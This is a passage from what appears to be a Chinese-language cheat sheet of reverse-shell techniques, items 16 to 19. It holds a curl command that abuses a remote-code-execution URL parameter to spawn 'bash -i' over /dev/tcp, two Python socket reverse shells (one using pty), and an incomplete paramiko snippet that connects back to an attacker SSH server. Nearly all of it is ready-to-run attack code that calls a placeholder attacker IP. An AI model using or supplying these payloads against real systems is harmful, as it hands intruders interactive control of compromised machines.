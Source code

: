 ### 16. 利用漏洞（如远程代码执行漏洞）

```text
# 假设目标系统有一个RCE漏洞，可以通过URL参数执行任意命令
# 例如：http://target.com/vulnerable_page.php?cmd=whoami
# 构造反弹shell命令并通过RCE漏洞执行
curl "http://target.com/vulnerable_page.php?cmd=bash+-i+>&+/dev/tcp/x.x.x.x/1234+0>&1"
```

### 17. 自定义脚本

```text
import os
import socket
host ='x.x.x.x'# 攻击者IP
port =1234# 监听端口
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
os.dup2(s.fileno(),0)# stdin
os.dup2(s.fileno(),1)# stdout
os.dup2(s.fileno(),2)# stderr
os.system('/bin/bash -i')
```

### 18. 使用Python的`pty`库模拟终端

```text
import os
import pty
import socket
host ='x.x.x.x'
port =1234
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
# 使用pty模拟终端
master, slave = pty.openpty()
os.dup2(slave.fileno(),0)
os.dup2(slave.fileno(),1)
os.dup2(slave.fileno(),2)
os.execvp('/bin/bash',['/bin/bash','-i'])
# 注意：在实际使用中，可能需要在攻击者端使用类似screen或tmux的工具来管理pty会话
```

### 19. 利用Python的`paramiko`库进行SSH反弹

```text
import paramiko
import subprocess
import os
# 攻击者端设置SSH服务器监听
# 需要一个外部的SSH服务器或者使用Python的SSH库（如paramiko的ServerInterface）来模拟
# 这里假设已经有一个SSH服务器在监听
# 目标端执行以下Python代码
hostname ='x.x.x.x'# 攻击者SSH服务器IP
port =22
username ='attacker_user'
password ='attacker_password'
client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
client.connect(hostname, port, username, password)
# 开启一个反向隧道
transport = client.get_transport()
chan = transport.open_session()
chan.invoke_shell()
# 将标准输入、输出和错误输出重定向到该SSH会话
```